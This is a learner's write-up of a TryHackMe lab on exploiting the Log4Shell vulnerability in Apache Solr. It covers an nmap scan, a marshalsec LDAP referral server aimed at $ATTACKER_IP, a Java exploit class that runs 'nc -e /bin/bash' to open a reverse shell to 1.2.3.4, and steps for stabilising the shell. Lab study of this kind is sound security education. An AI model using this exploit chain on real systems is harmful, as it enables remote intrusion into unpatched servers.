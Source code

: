 # TryHackMe: Complete Beginner (Supplements) & Exploiting Log4j

* **author**:: Nathan Acks
* **date**:: 2022-01-02

Finishing up the supplemental rooms around the TryHackMe: Complete Beginner sequence and then working through a special room covering the recently discovered Log4j vulnerabilities as a fun aside.

* [TryHackMe: Complete Beginner](https://tryhackme.com/path-action/beginner/)
* [TryHackMe: Solar, exploiting log4j](https://tryhackme.com/room/solar)

## TryHackMe: Complete Beginner (Supplements)

### Retro

[See my Retro CTF write-up.](../notes/tryhackme-retro.md)

## Exploiting Log4j

### Reconnaissance

The target has an IP address of 10.10.177.64. We'll start off with a normal nmap scan, though I'm going to be a bit less aggressive since we're just looking to enumerate ports/services.

```bash
sudo nmap -v -oA solar -A -T4 -sS -p- 10.10.177.64
```

This gives us:

```
# Nmap 7.92 scan initiated Sun Jan  2 20:58:25 2022 as: nmap -v -oA solar -A -T4 -sS -p- 10.10.177.64
Nmap scan report for 10.10.177.64
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:35:e1:4f:4e:87:45:9e:5f:2c:97:e0:da:a9:df:d5 (RSA)
|   256 b2:fd:9b:75:1c:9e:80:19:5d:13:4e:8d:a0:83:7b:f9 (ECDSA)
|_  256 75:20:0b:43:14:a9:8a:49:1a:d9:29:33:e1:b9:1a:b6 (ED25519)
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
8983/tcp open  http    Apache Solr
| http-title: Solr Admin
|_Requested resource was http://10.10.177.64:8983/solr/
|_http-favicon: Unknown favicon MD5: ED7D5C39C69262F4BA95418D4F909B10
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=1/2%OT=22%CT=1%CU=42554%PV=Y%DS=4%DC=T%G=Y%TM=61D276A8
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11
OS:NW7%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(
OS:R=Y%DF=Y%T=40%W=6903%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Uptime guess: 44.471 days (since Fri Nov 19 09:49:52 2021)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 199/tcp)
HOP RTT       ADDRESS
1   29.11 ms  10.13.0.1
2   ... 3
4   171.20 ms 10.10.177.64

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan  2 21:08:08 2022 -- 1 IP address (1 host up) scanned in 582.99 seconds
```

The service running on port 8983 has an HTML page title of "Solr Admin", which seems to be part of Apache Solr.

* [Using "nmap"](../notes/nmap.md)
* [Apache Solr](https://solr.apache.org/)

### Proof of Concept

It's still not 100% clear to me why use of LDAP is required to trigger Log4Shell, but I'm *guessing* this is used because it's one of the protocols that JNDI supports. This makes a little more sense given that JNDI stands for the Java Naming and *Directory* Interface… But it still feels kinda wacky to me that one would store Java objects in… LDAP.

* [Java Naming and Directory Interface (Wikipedia)](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface)

### Exploitation

This section makes the question I wrote above at least a little more clear — LDAP is providing a URL using a more sensible protocol like HTTP that JNDI is then loading the Java code from. So the sequence is malicious request → LDAP lookup → load Java code over HTTP.

A simple Java LDAP server that will do just this is available at https://github.com/mbechler/marshalsec. It can be built with Apache Maven using the version of OpenJDK supplied with Kali Linux:

```bash
mvn clean package -DskipTests
```

And run with:

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar \
         marshalsec.jndi.LDAPRefServer \
         "http://$ATTACKER_IP:$ATTACKER_PORT/#Exploit"
```

Where `$ATTACKER_IP` and `$ATTACKER_PORT` are the IP address and port of an HTTP server that will be used to actually serve up the exploit.

A simple Java exploit that pops a reverse shell (at least on Linux systems with a version of netcat that supports the `-e` switch) is:

```java
public class Exploit {
	static {
		try {
			java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 1.2.3.4 9999");
		} catch (Exception e) {
			e.printStackTrace();
		}
	}
}
```

Where 1.2.3.4 should match `$ATTACKER_IP` above, and 9999 is the port of the local listener. This can be compiled with:

```bash
javac Exploit.java -source 8 -target 8
```

Note that the `-source` and `-target` flags may need to be modified depending on which version of Java the target is running. As with all things Java, the file name and file class name need to match.

* [Using "netcat"](../notes/netcat.md)

### Persistence

Generic netcat shell stabilization steps (when running bash at *both* ends):

* Run `python3 -c "import pty; pty.spawn('/bin/bash')"` on the target.
* Background the reverse shell with Ctrl+Z.
* Run `stty raw -echo` to disable foreground echo (echo will be handled by the target).
* Foreground the reverse shell with `fg` (there won't be any output).
* Hit Enter a couple of times to get back a prompt, and then `export TERM=xterm`.

That should be good enough.
